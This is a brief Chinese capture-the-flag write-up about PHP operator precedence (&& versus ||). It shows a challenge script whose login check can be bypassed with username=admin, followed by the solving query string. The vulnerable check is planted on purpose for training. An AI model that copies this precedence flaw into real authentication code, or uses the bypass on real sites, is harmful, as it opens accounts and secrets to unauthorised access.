

# 知识点
### && || 
# 思路
```python
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 06:22:13
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-13 20:05:36
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

#error_reporting(0);
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}
```
```python
?username=admin&password=1&code=admin
```

